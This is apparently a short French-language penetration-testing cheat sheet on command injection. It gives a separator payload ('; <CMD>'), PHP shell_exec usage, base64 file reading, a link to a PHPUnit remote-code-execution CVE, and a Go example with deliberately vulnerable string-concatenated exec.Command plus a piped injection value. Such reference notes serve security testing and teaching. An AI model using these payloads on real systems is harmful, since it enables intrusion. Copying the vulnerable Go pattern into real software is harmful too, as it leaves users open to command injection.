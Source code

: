 # Injections de commandes

### Basiques

```
; <CMD>
```

### PHP

Si `phpinfo()` fonctionne alors il est possible d'exécuter des commandes système avec `shell_exec('<CMD>')`.

```
# Lire un fichier est avoir le contenu encodé en base64
cat <PATH>/<FILE> | openssl base64

# Alternative à ./ pour exécuter un binaire
/bin/sh <EXECUTABLE>
```

#### Vulnérabilités connues

RCE sur PHPUnit 5.6.2 : [https://github.com/vulhub/vulhub/blob/master/phpunit/CVE-2017-9841/README.md](https://github.com/vulhub/vulhub/blob/master/phpunit/CVE-2017-9841/README.md).

### Go

```
# Exemple de code Go vulnérable
    cmd := exec.Command("sh", "-c", "cat " + animal)
# Injection via Burp
    "animal":"dog | ls -l"
```
